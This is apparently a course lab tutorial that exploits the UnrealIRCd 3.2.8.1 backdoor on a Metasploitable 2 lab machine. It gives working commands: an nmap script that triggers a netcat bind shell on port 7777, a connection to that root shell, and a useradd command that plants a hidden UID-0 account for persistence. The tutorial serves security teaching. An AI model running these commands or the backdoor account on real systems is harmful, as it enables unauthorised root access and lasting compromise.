 ## UnrealIRCd Backdoors and Persistence in Metasploitable 2

UnrealIRCd is an Open Source IRC server. In November 2009 the archive named “Unreal3.2.8.1.tar.gz” was replaced by a version containing a backdoor (trojan). This backdoor allowed anyone to execute various commands with the privileges of the user running ircd. The backdoor was executed regardless of the user's restrictions. For the following practice, we will use, as always, Metasploitable 2 and Kali Linux.

We focus on the IRC service on TCP port 6667.

![IRC](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/irc.png?raw=true)

We will use the NSE Script named “irc-unrealircd-backdoor.nse” included in Nmap, which allows us to check if this IRC server contains the backdoor.

```bash
nmap -n -Pn -p 6667 --script=irc-unrealircd-backdoor.nse 192.168.1.49
```

![script-irc](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/script-irc.png?raw=true)

The argument named “irc-unrealircd-backdoor.command” in the script can be used to execute arbitrary commands on the remote system. Due to the nature of this vulnerability (the result is never returned) there is no way to obtain the output of the command.


```bash
nmap -n -Pn -p 6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -l -p 7777 -e /bin/sh' 192.168.1.49
```

![backdoor](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/backdoor.png?raw=true)


From another terminal, use the Netcat tool to establish a connection to TCP port 7777.

```bash
nc -n -vv 192.168.1.49 7777
```

![nc](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/nc.png?raw=true)

```bash
Uname -a
```

The connection is successfully established. You now have access to the evaluation target with the privileges of the root user. Completing the previous point we can create a user root to maintain our persistence.

```bash
useradd -o --uid 0 superroot
```

![useradd](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/useradd.png?raw=true)

### Tools for activities
